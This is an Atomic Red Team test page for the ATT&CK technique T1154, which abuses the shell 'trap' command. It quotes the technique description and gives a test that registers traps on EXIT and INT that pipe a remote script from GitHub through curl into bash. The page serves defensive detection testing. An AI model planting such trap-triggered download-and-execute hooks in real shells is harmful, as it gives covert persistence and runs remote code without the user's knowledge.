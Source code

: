 # T1154 - Trap
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1154)
<blockquote>The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Trap](#atomic-test-1---trap)


<br/>

## Atomic Test #1 - Trap
After exiting the shell, the script will download and execute.

After sending a keyboard interrupt (CTRL+C) the script will download and execute.

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux


#### Run it with `sh`! 
```
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' EXIT
exit
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' INT
```



<br/>
